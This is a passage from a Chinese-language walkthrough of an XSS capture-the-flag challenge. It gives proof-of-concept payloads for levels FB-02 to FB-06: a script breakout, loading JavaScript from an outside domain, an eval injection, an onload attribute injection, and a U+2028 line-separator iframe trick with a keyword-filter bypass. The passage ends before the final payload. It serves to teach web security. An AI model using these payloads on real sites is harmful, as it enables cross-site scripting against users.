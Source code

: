 这一关访问很明显就是一段 js 代码，只是去掉了 `<script>`， 直接输入到页面上，但是通过 func 参数可以控制页面上的两个点。由于 POC 要求 chrome 有效，所以最初一直停留在绕 chrome 的 XSS Auditor 上了，浪费不少时间。后面重新换个思路，利用两个输出点，结合当前页面内容，通过下面 POC 过关：

```
http://sandbox.host.smartgslb.com/fb2/?func=';alert(1);</script><script>tpl={' 
```

## 4\. FB-03

这一关比较简单，绕过对 page 的检测，加载一个外域的 JS 文件，直接给 POC：

```
http://sandbox.host.smartgslb.com/fb3/?page=//test.com/1 
```

## 5\. FB-04

这一关的表单提交是用来迷惑的，重点在 eval，POC：

```
http://sandbox.host.smartgslb.com/fb4/?key=#";alert(1);" 
```

## 6\. FB-05

这关的利用点是头像，表单提交，在 pic 中提交如下 POC：

```
upic=./img/head_2.png' onload=alert(1) ' 
```

## 7\. FB-06

这一题最主要的就是换行符，在 [XSS 挑战第二期 Writeup](http://drops.wooyun.org/papers/938) 中有提到，记性不好，以至于卡了很久。

这里有个关键的地方就是 `xss6.js` 中的：

```
var SERVER_TEMP  = $.Tjs_HtmlEncode(str.replace(/.*\?/,"")); //HtmlEncode 进行安全验证 
```

这行代码让我们对 *?* 失去了幻想，还记得 `FB-01` 里面的那个正则么，这里很神似，但是却更狠。所以我们需要一个换行符，普通的 %0D%0A 是不行的，所以这里需要 `&#x2028;`，由于 chrome 不能直接在浏览器中插入这个符号，所以我们通过一个 iframe 来引用它：

```
<iframe src="http://sandbox.host.smartgslb.com/fb6/xss6.htm#?&#x2028;&uin=..&pn=user.php?callback=dodo#"></iframe> 
```

user.php 这个 callback 接口有限制，还需要绕过这里的限制才能够执行 JS 代码，经过测试程序对几乎所有可以执行代码的关键字进行了过滤，但是对 [ ] ( ) . 等没有进行限制，可以通过下面的方法来绕过：

```
this17795081..toString(36) 
```

最后的 POC：
